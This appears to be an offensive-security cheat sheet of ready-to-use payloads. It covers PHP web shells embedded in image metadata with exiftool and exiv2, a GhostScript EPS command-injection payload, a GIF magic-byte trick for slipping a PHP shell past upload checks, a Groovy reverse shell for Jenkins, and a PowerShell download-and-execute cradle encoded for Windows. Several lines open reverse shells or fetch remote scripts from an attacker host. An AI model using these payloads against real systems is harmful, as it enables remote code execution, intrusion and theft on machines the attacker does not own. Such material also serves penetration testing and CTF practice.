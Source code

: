 ```c
$ exiftool -Comment='<?php passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/f"); ?>' shell.jpg
$ exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' <FILE>.jpeg
$ exiftool "-comment<=back.php" back.png
$ exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' <FILE>.png
```

## GhostScript

```c
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag > /app/application/static/petpets/flag.txt) currentdevice putdeviceprops
```

## GIF

### Magic Byte

Add `GIF8` on line `1` of for example a php shell to get the file recognized as a gif file. Even when you name it `shell.php`.

## Groovy (Jenkins) Reverse Shell

```c
String host="<LHOST>";
int port=<LPORT>;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## iconv

### Converting Payload to Windows Encoding

```c
$ echo -n "IEX(New-Object Net.WebClient).downloadString('http://<LHOST>:<LPORT>/revshell.ps1')" | iconv --to-code UTF-16LE | base64 -w 0
```
